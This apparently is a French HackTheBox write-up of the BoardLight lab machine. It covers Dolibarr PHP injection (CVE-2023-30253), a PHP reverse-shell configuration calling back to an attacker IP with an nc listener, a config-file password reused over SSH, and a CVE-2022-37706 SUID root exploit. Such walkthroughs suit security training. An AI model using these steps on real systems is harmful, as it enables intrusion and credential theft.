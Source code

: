 ```yaml
---
title: HTB | BoardLight
description: BoardLight is an easy difficulty Linux machine that features a Dolibarr instance vulnerable to CVE-2023-30253. This vulnerability is leveraged to gain access as www-data. After enumerating and dumping the web configuration file contents, plaintext credentials lead to SSH access to the machine. Enumerating the system, a SUID binary related to enlightenment is identified which is vulnerable to privilege escalation via CVE-2022-37706 and can be abused to leverage a root shell.
slug: boardlight-htb
date: 2024-08-04 00:00:00+0000
#image: cover.png
categories:
 - HackTheBox
tags:
 - Linux
 - Easy
#weight: 1
---
```


<table style="border:none; width:100%;">
  <tr>
    <!-- Colonne gauche : logo -->
    <td style="border:none; text-align:center; vertical-align:middle; width:150px;">
      <img src="cover.png" alt="BoardLight cover" width="120">
    </td>
    <td style="border:none; text-align:center; vertical-align:middle;">
      <table style="margin:auto; border-collapse:collapse; border:1px solid #ddd;">
        <thead>
          <tr>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Machine name</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">OS</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">IP</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Difficulty</th>
          </tr>
        </thead>
        <tbody>
          <tr>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">BoardLight</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Linux</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">10.10.11.11</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Easy</td>
          </tr>
        </tbody>
      </table>
    </td>
  </tr>
</table>

## Users
```bash
larissa : serverfun2$2023!!
```

## Enumeration

### nmap
Port 80 et 443 (http et https) ouverts.

## Foothold

### board.htb -> crm.board.htb
Subdomain attack :
```bash
gobuster dns -d board.htb -t 50 -w /usr/share/wordlists/dnsmap.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     board.htb
[+] Threads:    50
[+] Timeout:    1s
[+] Wordlist:   /usr/share/wordlists/dnsmap.txt
===============================================================
Starting gobuster in DNS enumeration mode
===============================================================
Found: crm.board.htb
```

### Login page (crm.board.htb)
On a acces a une page de login.
User : admin
mdp : admin

### Dashboard - RCE
Sur le dashboard **Dolibarr** on peut créer un site internet. On peut modifier le code html et y mettre du code php.
Il faut pour cela modifier la balise car nous n'avons pas la permission pour mettre du php:
```php
<?phP echo "haa"; ?>
```
Code php reverse shell.
```bash
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.16.48';  // CHANGE THIS
$port = 6789;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```
Il suffit ensuite de mettre notre reverse shell php dans la page puis de l'ouvrir.
Sur notre terminal, on se met en attente avec un : `nc -lnvp 6789`

### User flag
En regardant dans les fichiers de configuration du serveur web, on trouve un mot de passe : `serverfun2$2023!!`
Dans /home, on a observé l'utilisateur `larissa` précédemment. On suppose qu'il s'agit de son mot de passe et ça marche !
```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat * | grep pass
...
$dolibarr_main_db_pass='serverfun2$2023!!';
...
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ su larissa
Password: 
larissa@boardlight:/var/www/html/crm.board.htb/htdocs/conf$ cat ~/user.txt 
6e47.....36af
^C
$ ssh larissa@10.10.11.11 
Password: serverfun2$2023!!
```

## Privilege Escalation

### Enumeration : LinPEAS
Execution d'un nouveau linpeas depuis le compte de larissa. On trouve des binaires qui semblent SUID vulnerable.
```bash
══════════╣ SUID - Check easy privesc, exploits and write perms
-rwsr-xr-x 1 root root 27K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset (Unknown SUID binary!)
```

### CVE-2022–37706 : SUID binary
Enlightenment v0.25.3 - Privilege escalation

https://www.exploit-db.com/exploits/51180

En executant le fichier `exploit.sh` trouvé sur github, on obtient directement un accès root. Cette faille permet de trouver un binaire SUID Vulnérable sur la machine, puis de s'en servir pour obtenir un shell en tant que root.

```bash
$ ./exploit.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
## whoami
root
## cat /root/root.txt
2de2.....893c
```